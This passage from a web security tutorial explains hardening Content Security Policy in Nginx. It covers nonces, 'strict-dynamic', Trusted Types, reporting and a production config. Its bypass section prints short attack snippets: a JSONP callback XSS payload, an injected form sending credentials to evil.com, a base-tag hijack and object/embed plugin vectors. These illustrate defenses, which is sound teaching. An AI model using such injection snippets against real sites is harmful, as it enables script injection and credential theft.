<Mermaid caption="Trust propagation with strict-dynamic" maxWidth="700px">

</Mermaid>

### How It Works

<Code lang="html" title="Trust propagation example">
```html
<!-- This script has a valid nonce -->
<script nonce="abc123">
  // This dynamically created script ALSO runs
  // because it inherits trust from the parent
  const script = document.createElement('script');
  script.src = 'https://cdn.example.com/analytics.js';
  document.head.appendChild(script);
</script>
```
</Code>

<Callout type="warning">
  **Important behavior:** When `'strict-dynamic'` is present, allowlist sources like `'self'` or `https://example.com` are **ignored** for script loading. Only nonces/hashes grant initial trust—dynamically loaded scripts inherit it.
  
  This is by design and actually increases security.
</Callout>

### When to Use `'strict-dynamic'`

<Table title="strict-dynamic Use Cases">
  <thead>
    <tr>
      <th>Scenario</th>
      <th>Use strict-dynamic?</th>
      <th>Reason</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SPA with code splitting</td>
      <td data-status="success"><strong>Yes</strong></td>
      <td>Webpack/Vite load chunks dynamically</td>
    </tr>
    <tr>
      <td>Analytics (GA, Segment)</td>
      <td data-status="success"><strong>Yes</strong></td>
      <td>Analytics scripts often load additional scripts</td>
    </tr>
    <tr>
      <td>Third-party widgets</td>
      <td data-status="success"><strong>Yes</strong></td>
      <td>Chat widgets, embeds load their own dependencies</td>
    </tr>
    <tr>
      <td>Simple static site</td>
      <td data-status="warning">Optional</td>
      <td>If all scripts are in HTML, nonces alone suffice</td>
    </tr>
    <tr>
      <td>No JavaScript at all</td>
      <td data-status="error">No</td>
      <td>Use <code>script-src 'none'</code> instead</td>
    </tr>
  </tbody>
</Table>

---

## The Strict CSP Formula

Based on [Google's research](https://web.dev/articles/strict-csp), a "strict CSP" that actually protects against XSS requires these elements:

<CheckList title="Strict CSP Requirements">
  <li data-check="check">Uses **nonces** or **hashes** instead of domain allowlists</li>
  <li data-check="check">Includes **`'strict-dynamic'`** for dynamic script loading</li>
  <li data-check="check">Sets **`object-src 'none'`** to block plugins</li>
  <li data-check="check">Sets **`base-uri 'none'`** to prevent base tag injection</li>
</CheckList>

### Browser Support

<BrowserSupport
  title="strict-dynamic Browser Support"
  browsers={[
    { browser: "chrome", version: "52+", support: "full" },
    { browser: "firefox", version: "52+", support: "full" },
    { browser: "safari", version: "15.4+", support: "full", note: "Added March 2022" },
    { browser: "edge", version: "79+", support: "full" },
  ]}
/>

### The Template

<Code lang="nginx" title="Strict CSP template">
```nginx
# The three essential directives for strict CSP
script-src 'nonce-$cspNonce' 'strict-dynamic';
object-src 'none';
base-uri 'none';
```
</Code>

### Why Allowlists Don't Work

<Callout type="warning" icon="mdi:alert">
  **94.72% of allowlist CSPs can be bypassed** ([Google Research, 2016](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/))
  
  Analysis of the 15 most commonly whitelisted domains found that **14 of them** contain unsafe endpoints that attackers can abuse.
</Callout>

Common bypass vectors include:
- **JSONP endpoints** on trusted CDNs
- **Open redirects** on allowed domains  
- **AngularJS** template injection on allowed origins
- **User-uploaded content** served from allowed domains

---

## Interactive: Build Your CSP

Use this interactive builder to construct a policy and see your security rating in real-time:

<CSPBuilder title="CSP Policy Builder" />

---

## CSP Bypass Techniques and Prevention

Understanding how attackers bypass CSP helps you avoid common pitfalls.

### 1. JSONP Endpoints

JSONP endpoints execute user-controlled callbacks, making them a classic bypass vector:

<BeforeAfter beforeLabel="Vulnerable" afterLabel="Protected">
  <div slot="before">
    ```nginx
    # CSP trusts all of cdn.example.com
    script-src 'self' https://cdn.example.com;
    ```
    ```html
    <!-- Attacker exploits JSONP endpoint -->
    <script src="https://cdn.example.com/api?callback=alert(1)//"></script>
    ```
  </div>
  <div slot="after">
    ```nginx
    # Use nonces instead of domain allowlists
    script-src 'nonce-$cspNonce' 'strict-dynamic';
    ```
    ```html
    <!-- JSONP has no nonce - blocked! -->
    <script src="https://cdn.example.com/api?callback=alert"></script>
    <!-- Refused to execute script... -->
    ```
  </div>
</BeforeAfter>

### 2. Form Hijacking

Attackers can inject forms to steal credentials if `form-action` isn't set:

<Code lang="html" title="Form hijacking attack">
```html
<!-- Attacker injects this before your login form -->
<form action="https://evil.com/steal">
  <!-- Your existing input fields get captured -->
</form>

<!-- Without form-action, the browser allows submission to evil.com! -->
```
</Code>

**Prevention:**
```nginx
form-action 'self';
```

### 3. Base Tag Injection

<Code lang="html" title="Base tag attack">
```html
<!-- Attacker injects this early in the document -->
<base href="https://evil.com/">

<!-- All your relative URLs now resolve to evil.com -->
<script src="/js/app.js"></script>  <!-- Loads https://evil.com/js/app.js -->
        <!-- Loads https://evil.com/images/logo.png -->
<a href="/login">Login</a>          <!-- Links to https://evil.com/login -->
```
</Code>

**Prevention:**
```nginx
base-uri 'none';
```

### 4. Script Gadgets in Allowed Libraries

Some major libraries contain patterns that can be exploited for XSS when that library is allowed by CSP:

<Collapsible title="Known Script Gadgets by Library">

| Library | Gadget Type | Risk |
|---------|-------------|------|
| AngularJS | Template injection via `ng-app` | High |
| jQuery (old) | `$.getScript()` with user input | Medium |
| Require.js | Dynamic imports | Medium |
| Polymer | Template parsing | Medium |

**Prevention:** Use nonces + strict-dynamic instead of allowing entire libraries by domain.

</Collapsible>

### 5. Missing `object-src`

Without `object-src 'none'`, attackers can use plugins to execute code:

<Code lang="html" title="Object-based XSS">
```html
<!-- Flash-based XSS (legacy but still seen) -->
<object data="data:application/x-shockwave-flash;base64,..." 
        type="application/x-shockwave-flash">
</object>

<!-- PDF with JavaScript -->
<embed src="malicious.pdf" type="application/pdf">
```
</Code>

**Prevention:**
```nginx
object-src 'none';
```

---

## Trusted Types: The Next Evolution

While traditional CSP prevents injection of `<script>` tags, it doesn't protect against **DOM-based XSS** where JavaScript directly writes to dangerous sinks:

<Code lang="javascript" title="DOM-based XSS vulnerability">
```javascript
// These are dangerous DOM sinks
element.innerHTML = userInput;           // XSS if userInput contains HTML
location.href = userInput;               // Open redirect/XSS
document.write(userInput);               // XSS
eval(userInput);                         // Remote code execution
```
</Code>

**Trusted Types** forces developers to sanitize data before passing it to these sinks.

<StateNotice
  type="experimental"
  feature="Trusted Types"
  title="Trusted Types are experimental but maturing"
/>

### How Trusted Types Work

<Mermaid caption="Trusted Types enforce sanitization at DOM sinks" maxWidth="750px">

</Mermaid>

### Enabling Trusted Types

<FileContent filename="nginx.conf (CSP with Trusted Types)" icon="devicon:nginx">
```nginx
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    
    # Trusted Types enforcement
    require-trusted-types-for 'script';
    trusted-types default;
" always;
```
</FileContent>

### Creating a Trusted Types Policy

<Code lang="javascript" title="Trusted Types sanitization policy">
```javascript
// Create a policy that sanitizes HTML
if (window.trustedTypes && trustedTypes.createPolicy) {
  const sanitizerPolicy = trustedTypes.createPolicy('default', {
    createHTML: (input) => {
      // Use DOMPurify or similar sanitizer
      return DOMPurify.sanitize(input);
    },
    createScriptURL: (input) => {
      // Only allow same-origin URLs
      const url = new URL(input, window.location.origin);
      if (url.origin !== window.location.origin) {
        throw new Error('Cross-origin scripts not allowed');
      }
      return url.href;
    }
  });
}

// Now innerHTML requires TrustedHTML
element.innerHTML = userInput;  // TypeError: requires TrustedHTML
element.innerHTML = sanitizerPolicy.createHTML(userInput);  // Works!
```
</Code>

<Callout type="info">
  **Adoption tip:** Start with `Content-Security-Policy-Report-Only` for Trusted Types to find violations without breaking your site:
  
  ```nginx
  add_header Content-Security-Policy-Report-Only "require-trusted-types-for 'script'; report-uri /tt-reports";
  ```
</Callout>

---

## Advanced: Per-Endpoint CSP

Different parts of your site may need different policies:

- **Admin panels**: Stricter CSP
- **API endpoints**: No CSP needed (JSON isn't executed)
- **Static assets**: Relaxed for social media previews
- **User-generated content pages**: Extra restrictions  

### Implementation

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # Default: strict CSP for HTML pages
    location / {
        try_files $uri $uri/ =404;
        include /etc/nginx/snippets/security-headers-strict.conf;
    }
    
    # API: no CSP needed for JSON
    location /api/ {
        proxy_pass http://backend;
        # No CSP header - JSON isn't executed by browsers
    }
    
    # Assets: relaxed for social media crawlers
    location /assets/ {
        expires 1y;
        add_header Cache-Control "public, immutable";
        include /etc/nginx/snippets/security-headers-assets.conf;
    }
}
```
</FileContent>

<Tabs>
  <TabPanel label="Strict (HTML pages)">
    ```nginx
    # /etc/nginx/snippets/security-headers-strict.conf
    add_header Content-Security-Policy "
        default-src 'none';
        script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
        ...
    " always;
    
    # Prevent embedding
    add_header Cross-Origin-Resource-Policy "same-origin" always;
    ```
  </TabPanel>
  <TabPanel label="Relaxed (Assets)">
    ```nginx
    # /etc/nginx/snippets/security-headers-assets.conf
    add_header Content-Security-Policy "
        default-src 'none';
        img-src 'self';
        font-src 'self';
    " always;
    
    # Allow social media to fetch images for previews
    add_header Cross-Origin-Resource-Policy "cross-origin" always;
    ```
  </TabPanel>
</Tabs>

---

## Migration: Report-Only to Enforcement

**Never deploy strict CSP directly to production.** Use a phased approach:

<StepByStep title="Safe CSP Migration Process">
  <li>
    **Deploy in report-only mode (1-2 weeks)**
    
    Use `Content-Security-Policy-Report-Only` to log violations without blocking anything. Monitor your logs to understand what would break.
  </li>
  <li>
    **Analyze and fix violations**
    
    Review reports and remediate issues:
    - Inline event handlers → `addEventListener()`
    - `eval()` calls → `JSON.parse()` or refactor
    - Missing nonces on inline scripts
    - Third-party scripts that need `strict-dynamic`
  </li>
  <li>
    **Enable enforcement gradually**
    
    Switch from `Report-Only` to `Content-Security-Policy`. Keep a report-only header for testing future stricter policies.
  </li>
</StepByStep>

### Phase 1: Report-Only

<Code lang="nginx" title="Report-only mode">
```nginx
# Logs violations but doesn't block anything
add_header Content-Security-Policy-Report-Only "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    upgrade-insecure-requests;
    report-uri /csp-reports;
" always;
```
</Code>

### Phase 2: Fix Common Issues

<CheckList title="Common Issues to Fix">
  <li data-check="warning">**Inline event handlers** → Convert `onclick="..."` to `addEventListener()`</li>
  <li data-check="warning">**`eval()` usage** → Replace with `JSON.parse()` or refactor</li>
  <li data-check="warning">**Missing nonces** → Add `nonce="CSP_NONCE_NGINX"` to inline scripts</li>
  <li data-check="warning">**Third-party scripts** → Verify `'strict-dynamic'` covers them</li>
  <li data-check="warning">**Inline styles in JS** → Use CSS classes or CSS custom properties</li>
</CheckList>

### Phase 3: Enforce

<Code lang="nginx" title="Enforcement mode">
```nginx
# Now blocking violations
add_header Content-Security-Policy "..." always;

# Optional: keep report-only for testing stricter future policies
add_header Content-Security-Policy-Report-Only "...even-stricter-policy..." always;
```
</Code>

---

## Setting Up CSP Reporting

CSP's built-in reporting tells you when violations occur—essential for debugging and detecting attacks.

<StateNotice
  type="deprecated"
  feature="report-uri"
  title="report-uri is deprecated"
  alternative="report-to"
  alternativeUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to"
/>

<Callout type="info">
  **For maximum compatibility, use both:** Chrome 70+ uses `report-to` and ignores `report-uri`. Firefox and Safari still rely on `report-uri`.
</Callout>

### Option 1: Simple Nginx Logging

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
# Reporting endpoint
location /csp-reports {
    access_log /var/log/nginx/csp-reports.log;
    return 204;
}
```
</FileContent>

<FileContent filename="CSP Header with reporting" icon="devicon:nginx">
```nginx
# Modern Reporting API (Chrome 70+)
add_header Reporting-Endpoints 'csp-endpoint="/csp-reports"' always;

# CSP with both legacy and modern reporting
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    ...
    report-uri /csp-reports;
    report-to csp-endpoint;
" always;
```
</FileContent>

### Option 2: Third-Party Services

Services like [Report URI](https://report-uri.com/) provide dashboards and analysis:

<Code lang="nginx" title="Third-party reporting">
```nginx
report-uri https://your-subdomain.report-uri.com/r/d/csp/enforce;
report-to csp-endpoint;
```
</Code>

### Violation Report Format

Browsers send JSON reports like this:

<FileContent filename="csp-violation-report.json" icon="mdi:code-json">
```json
{
  "csp-report": {
    "document-uri": "https://example.com/page",
    "blocked-uri": "https://evil.com/script.js",
    "violated-directive": "script-src-elem",
    "effective-directive": "script-src-elem",
    "original-policy": "script-src 'nonce-abc123' 'strict-dynamic'",
    "disposition": "enforce",
    "status-code": 200,
    "script-sample": "",
    "line-number": 42,
    "column-number": 15,
    "source-file": "https://example.com/page"
  }
}
```
</FileContent>

---

## Refactoring Code for CSP

Some common patterns are incompatible with strict CSP. Here's how to fix them:

### Inline Event Handlers → addEventListener

<CompareCode badTitle="Blocked by CSP" goodTitle="CSP-Compatible">
  <div slot="bad">
    ```html
    <button onclick="submitForm()">Submit</button>
    <a href="javascript:doSomething()">Click</a>
    <form onsubmit="validate()">...</form>
    ```
  </div>
  <div slot="good">
    ```html
    <button id="submitBtn">Submit</button>
    <a href="#" id="actionLink">Click</a>
    <form id="myForm">...</form>
    
    <script nonce="CSP_NONCE_NGINX">
      document.getElementById('submitBtn')
        .addEventListener('click', submitForm);
      
      document.getElementById('actionLink')
        .addEventListener('click', (e) => {
          e.preventDefault();
          doSomething();
        });
      
      document.getElementById('myForm')
        .addEventListener('submit', validate);
    </script>
    ```
  </div>
</CompareCode>

### eval() → JSON.parse()

<CompareCode badTitle="Uses eval() - Blocked" goodTitle="Uses JSON.parse() - Allowed">
  <div slot="bad">
    ```javascript
    // Dangerous - blocked by CSP
    const data = eval('(' + jsonString + ')');
    setTimeout('doSomething()', 1000);
    const fn = new Function('x', 'return x * 2');
    ```
  </div>
  <div slot="good">
    ```javascript
    // Safe - works with strict CSP
    const data = JSON.parse(jsonString);
    setTimeout(doSomething, 1000);
    const fn = (x) => x * 2;
    ```
  </div>
</CompareCode>

### Inline Styles in JS → CSS Custom Properties

<CompareCode badTitle="Dynamic inline styles" goodTitle="CSS Custom Properties">
  <div slot="bad">
    ```javascript
    // May be blocked depending on style-src
    element.style.backgroundColor = userColor;
    element.setAttribute('style', 'color:' + color);
    ```
  </div>
  <div slot="good">
    ```javascript
    // Works with strict CSP
    element.style.setProperty('--user-color', userColor);
    element.classList.add('highlighted');
    ```
    ```css
    .highlighted {
      background: var(--user-color, #fff);
    }
    ```
  </div>
</CompareCode>

---

## Testing and Validation

### Browser DevTools

Your best friend for CSP debugging. Open F12 → Console to see violations in real-time:

<TerminalOutput title="CSP Violation in Chrome Console">
Refused to execute inline script because it violates the following Content 
Security Policy directive: "script-src 'nonce-abc123' 'strict-dynamic'". 
Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce 
('nonce-...') is required to enable inline execution.
</TerminalOutput>

### Online Tools

<Table title="CSP Testing Tools">
  <thead>
    <tr>
      <th>Tool</th>
      <th>Purpose</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://observatory.mozilla.org/" target="_blank" rel="noopener noreferrer"><strong>Mozilla Observatory</strong></a></td>
      <td>Comprehensive security header grading (A+ possible)</td>
    </tr>
    <tr>
      <td><a href="https://csp-evaluator.withgoogle.com/" target="_blank" rel="noopener noreferrer"><strong>Google CSP Evaluator</strong></a></td>
      <td>Finds logical bypasses in your policy (highly recommended)</td>
    </tr>
    <tr>
      <td><a href="https://securityheaders.com/" target="_blank" rel="noopener noreferrer"><strong>SecurityHeaders.com</strong></a></td>
      <td>Quick header analysis and scoring</td>
    </tr>
    <tr>
      <td><a href="https://report-uri.com/home/hash" target="_blank" rel="noopener noreferrer"><strong>CSP Hash Generator</strong></a></td>
      <td>Generate hashes for inline scripts</td>
    </tr>
  </tbody>
</Table>

---

## Common Pitfalls

### 1. Using `'unsafe-inline'` for Scripts

<CompareCode badTitle="Defeats CSP protection" goodTitle="Use nonces instead">
  <div slot="bad">
    ```nginx
    # Your CSP is now useless for XSS protection
    script-src 'self' 'unsafe-inline';
    ```
  </div>
  <div slot="good">
    ```nginx
    # Actual protection
    script-src 'self' 'nonce-$cspNonce';
    ```
  </div>
</CompareCode>

### 2. Overly Permissive Sources

<Code lang="nginx" title="DON'T: Trusting entire schemes">
```nginx
# DANGER: Trusts the entire internet!
script-src 'self' https:;
img-src *;
```
</Code>

This allows any HTTPS script to execute, completely defeating CSP's purpose.

### 3. Forgetting Required Directives

<CompareCode badTitle="Incomplete - Bypassable" goodTitle="Complete Strict CSP">
  <div slot="bad">
    ```nginx
    # Missing critical directives!
    script-src 'nonce-$cspNonce';
    ```
  </div>
  <div slot="good">
    ```nginx
    # All required directives present
    script-src 'nonce-$cspNonce' 'strict-dynamic';
    object-src 'none';
    base-uri 'none';
    ```
  </div>
</CompareCode>

### 4. Missing `always` in Nginx

<CompareCode badTitle="Only 2xx responses" goodTitle="All responses including errors">
  <div slot="bad">
    ```nginx
    # CSP missing on 404, 500 pages!
    add_header Content-Security-Policy "...";
    ```
  </div>
  <div slot="good">
    ```nginx
    # CSP on ALL responses
    add_header Content-Security-Policy "..." always;
    ```
  </div>
</CompareCode>

Without `always`, CSP headers won't be sent on error pages (404, 500), leaving those pages vulnerable.

### 5. `add_header` Inheritance Gotcha

<Code lang="nginx" title="Headers get overwritten in nested locations">
```nginx
location / {
    add_header Content-Security-Policy "..." always;
    add_header X-Frame-Options "DENY" always;
}

location /assets/ {
    # WARNING: This REPLACES parent headers, not adds to them!
    add_header Cache-Control "public, immutable" always;
    # CSP and X-Frame-Options are now MISSING here!
}
```
</Code>

**Solution:** Use `include` snippets to share headers across locations.

---

## Complete Production Example

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    listen [::]:443 ssl;
    http2 on;
    server_name example.com;
    
    root /var/www/example.com;
    index index.html;
    
    # ================================================
    # CSP Nonce Setup
    # ================================================
    set $cspNonce $request_id;
    sub_filter_once off;
    sub_filter_types text/html text/css application/javascript;
    sub_filter CSP_NONCE_NGINX $cspNonce;
    
    # ================================================
    # Build CSP Header
    # ================================================
    set $csp "default-src 'none'; ";
    set $csp "${csp}script-src 'self' 'nonce-${cspNonce}' 'strict-dynamic'; ";
    set $csp "${csp}style-src 'self' 'unsafe-inline'; ";
    set $csp "${csp}img-src 'self' data:; ";
    set $csp "${csp}font-src 'self'; ";
    set $csp "${csp}connect-src 'self'; ";
    set $csp "${csp}worker-src 'self'; ";
    set $csp "${csp}object-src 'none'; ";
    set $csp "${csp}base-uri 'none'; ";
    set $csp "${csp}frame-ancestors 'none'; ";
    set $csp "${csp}form-action 'self'; ";
    set $csp "${csp}upgrade-insecure-requests; ";
    set $csp "${csp}report-uri /csp-reports; ";
    set $csp "${csp}report-to csp-endpoint";
    
    # ================================================
    # Security Headers
    # ================================================
    add_header Reporting-Endpoints 'csp-endpoint="/csp-reports"' always;
    add_header Content-Security-Policy $csp always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
    add_header Cross-Origin-Opener-Policy "same-origin" always;
    add_header Cross-Origin-Embedder-Policy "require-corp" always;
    add_header Cross-Origin-Resource-Policy "same-origin" always;
    
    # ================================================
    # Routes
    # ================================================
    location / {
        try_files $uri $uri/ =404;
    }
    
    # CSP Violation Reporting Endpoint
    location /csp-reports {
        access_log /var/log/nginx/csp-reports.log;
        return 204;
    }
    
    # Static assets with relaxed CORP for social media
    location /assets/ {
        expires 1y;
        add_header Cache-Control "public, immutable" always;
        add_header Cross-Origin-Resource-Policy "cross-origin" always;
    }
}
```
</FileContent>

---

## Your CSP Journey: Summary

<StepByStep title="CSP Implementation Roadmap">
  <li>**Start simple** — Deploy `default-src 'self'` in report-only mode</li>
  <li>**Add directives progressively** — Scripts, styles, images, etc.</li>
  <li>**Handle inline scripts** — Move to files, use hashes, or implement nonces</li>
  <li>**For static sites** — Use Nginx `sub_filter` for nonce injection</li>
  <li>**Go strict** — Add `'strict-dynamic'`, `object-src 'none'`, `base-uri 'none'`</li>
  <li>**Set up reporting** — Monitor violations with `report-uri` / `report-to`</li>
  <li>**Enforce gradually** — Switch from report-only to enforcement after testing</li>
  <li>**Maintain and iterate** — Keep monitoring, update as your app evolves</li>
</StepByStep>

<Callout type="success" icon="mdi:trophy">
  **Result:** Following this guide, you can achieve an A+ rating on [Mozilla Observatory](https://observatory.mozilla.org/) while maintaining full site functionality and protecting your users from XSS attacks.
</Callout>

---

## Resources

### Official Documentation

- [MDN: Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) — Comprehensive reference
- [W3C CSP Level 3 Specification](https://www.w3.org/TR/CSP3/) — The official spec
- [Google web.dev: Strict CSP](https://web.dev/articles/strict-csp) — Google's recommended approach

### Research & Best Practices

- [OWASP CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [CSP Is Dead, Long Live Strict CSP](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/) — Google's seminal 2016 research
- [Trusted Types for DOM XSS Prevention](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API)

### Tools

- [CSP Evaluator](https://csp-evaluator.withgoogle.com/) — Find bypasses in your policy
- [Report URI](https://report-uri.com/) — CSP reporting service with dashboards
- [Mozilla Observatory](https://observatory.mozilla.org/) — Complete security header analysis
- [content-security-policy.com](https://content-security-policy.com/) — Reference and examples
